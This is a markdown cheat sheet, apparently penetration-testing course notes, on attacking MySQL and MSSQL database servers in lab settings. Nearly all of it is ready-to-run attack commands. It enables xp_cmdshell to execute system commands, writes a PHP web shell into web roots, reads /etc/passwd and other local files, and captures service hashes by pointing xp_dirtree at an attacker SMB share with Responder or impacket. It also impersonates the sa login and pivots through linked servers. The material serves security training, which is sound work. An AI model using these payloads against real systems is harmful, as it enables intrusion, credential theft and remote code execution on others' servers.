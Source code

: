 - [MySQL](https://www.mysql.com/) and [Microsoft SQL Server](https://www.microsoft.com/en-us/sql-server/sql-server-2019) (`MSSQL`) are [relational database](https://en.wikipedia.org/wiki/Relational_database) management systems that store data in tables, columns, and rows. 
- Many relational database systems like MSSQL & MySQL use the [Structured Query Language](https://en.wikipedia.org/wiki/SQL) (`SQL`) for querying and maintaining the database.
# Enumeration
- By default, MSSQL uses ports `TCP/1433` and `UDP/1434`, and MySQL uses `TCP/3306`. 
- However, when MSSQL operates in a "hidden" mode, it uses the `TCP/2433` port.
## Banner Grabbing
```shell
nmap -Pn -sV -sC -p1433 10.10.10.125
```
# Protocol Specific Attacks
### MySQL
#### MySQL - Connecting to the SQL Server
```shell
mysql -u julio -pPassword123 -h 10.129.20.13
```
#### Sqlcmd - Connecting to the SQL Server
```cmd
sqlcmd -S SRVMSSQL -U julio -P 'MyPassword!' -y 30 -Y 30
```
### MSSQL
```shell
sqsh -S 10.129.203.7 -U julio -P 'MyPassword!' -h
```

```shell
sqsh -S 10.129.203.7 -U .\\julio -P 'MyPassword!' -h
```
#### mssqlclient.py
```shell
mssqlclient.py -p 1433 julio@10.129.203.7 
```
# SQL Syntax
#### MySQL
```shell
SHOW DATABASES;
```
```shell
USE htbusers;
```
```shell
SHOW TABLES;
```
```shell
SELECT * FROM users;
```
#### MSSQL
```cmd
SELECT name FROM master.dbo.sysdatabases
```
```cmd
USE htbusers
```
```cmd
SELECT table_name FROM htbusers.INFORMATION_SCHEMA.TABLES
```
```cmd
SELECT * FROM users
```
# Execute Commands
### XP_CMDSHELL
```cmd
xp_cmdshell 'whoami'
GO
```
If `xp_cmdshell` is not enabled, we can enable it, if we have the appropriate privileges, using the following command:
```mssql
-- To allow advanced options to be changed.  
EXECUTE sp_configure 'show advanced options', 1
GO

-- To update the currently configured value for advanced options.  
RECONFIGURE
GO  

-- To enable the feature.  
EXECUTE sp_configure 'xp_cmdshell', 1
GO  

-- To update the currently configured value for this feature.  
RECONFIGURE
GO
```
# Write Local Files
#### MySQL - Write Local File
```shell
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```
#### MySQL - Secure File Privileges
```shell
show variables like "secure_file_priv";
```
#### MSSQL - Enable Ole Automation Procedures
```cmd
sp_configure 'show advanced options', 1
GO
RECONFIGURE
GO
sp_configure 'Ole Automation Procedures', 1
GO
RECONFIGURE
GO
```
#### MSSQL - Create a File
```cmd-session
DECLARE @OLE INT
DECLARE @FileID INT
EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
EXECUTE sp_OADestroy @FileID
EXECUTE sp_OADestroy @OLE
GO
```
# Read Local Files
#### Read Local Files in MSSQL
```cmd-session
SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
GO
```
#### MySQL - Read Local Files in MySQL
```shell
select LOAD_FILE("/etc/passwd");
```
# Capture MSSQL Service Hash
#### XP_DIRTREE Hash Stealing
```cmd-session
EXEC master..xp_dirtree '\\10.10.110.17\share\'
GO
```
#### XP_SUBDIRS Hash Stealing
```cmd-session
EXEC master..xp_subdirs '\\10.10.110.17\share\'
GO
```
#### XP_SUBDIRS Hash Stealing with Responder
```shell
sudo responder -I tun0
```
#### XP_SUBDIRS Hash Stealing with impacket
```shell
sudo impacket-smbserver share ./ -smb2support
```
# Impersonate Existing Users with MSSQL
#### Identify Users that We Can Impersonate
```cmd
SELECT distinct b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
GO
```
#### Verifying our Current User and Role
```cmd
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
go
```
#### Impersonating the SA User
```cmd
EXECUTE AS LOGIN = 'sa'
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
GO
```
# Communicate with Other Databases with MSSQL
#### Identify linked Servers in MSSQL
```cmd
SELECT srvname, isremote FROM sysservers
GO
```
```cmd
EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]
GO
```
